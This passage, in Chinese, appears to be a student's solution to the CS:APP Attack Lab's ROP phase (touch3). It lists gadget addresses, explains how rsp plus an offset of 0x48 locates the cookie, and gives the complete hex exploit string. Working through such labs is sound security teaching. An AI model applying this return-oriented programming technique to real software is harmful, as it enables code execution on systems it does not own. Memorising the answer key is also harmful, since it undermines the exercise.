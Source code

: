 既然有可以存放到esi的指令，就不需要再寻找从rcx赋值的语句了

```assembly
popq %rax # 4019ab 或 4019cc
movl %eax,%edx # 4019dd
movl %edx,%ecx # 401a70
movl %ecx,%esi # 401a13
```

### 根据栈顶地址和偏移量获取cookie地址并存储到rdi中

```assembly
lea (%rdi,%rsi,1),%rax # 4019d6
mov %rax,%rdi # 4019a2
```

上述代码框中只是包含要执行的代码，并没有包含数据，下面的描述是完整的

```assembly
1. ... getbuf空白区和未用空间
2. getbuf返回地址空间：mov %rsp,%rax # 401a06
3. mov %rax,%rdi # 4019a2
4. popq %rax # 4019ab 或 4019cc
5. 待放入rax中的偏移量，在mov %rax,%rdi执行retq时，rsp指向popq    %rax，所以返回到popq指令处，同时retq指令的执行也会让rsp减1指向	popq下面的空间，所以popq的内容刚好可以放到rax中
6. movl %eax,%edx # 4019dd
7. movl %edx,%ecx # 401a70
8. movl %ecx,%esi # 401a13
9. lea (%rdi,%rsi,1),%rax # 4019d6
10. mov %rax,%rdi # 4019a2
11. touch3函数入口地址
12. cookie的16进制格式
```

cookie只能放在最后，因为上面的指令需要连续执行，必须协调retq指令和rsp的关系，cookie的值不能插在它们之中

下面需要计算一下偏移量的值，

在执行`mov %rsp, %rax`时，rsp已经移动到`mov %rax, %rdi`的位置了，此时rsp的值为此处的首地址，可以计算得到cookie的首地址为rsp+0x48,所以最终答案如下

```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 # mov %rsp,%rax
a2 19 40 00 00 00 00 00 # mov %rax,%rdi
ab 19 40 00 00 00 00 00 # popq %rax
48 00 00 00 00 00 00 00 # 偏移量
dd 19 40 00 00 00 00 00 # movl %eax,%edx
70 1a 40 00 00 00 00 00 # movl %edx,%ecx
13 1a 40 00 00 00 00 00 # movl %ecx,%esi
d6 19 40 00 00 00 00 00 # lea (%rdi,%rsi,1),%rax
a2 19 40 00 00 00 00 00 # mov %rax,%rdi
fa 18 40 00 00 00 00 00 # touch3入口地址
35 39 62 39 39 37 66 61 # cookie
```

回过头来看，解决这个问题的突破口就在考虑到获取cookie的地址，而能够获取地址的汇编代码就是lea指令，从而考虑到使用栈顶地址和偏移量获得cookie地址

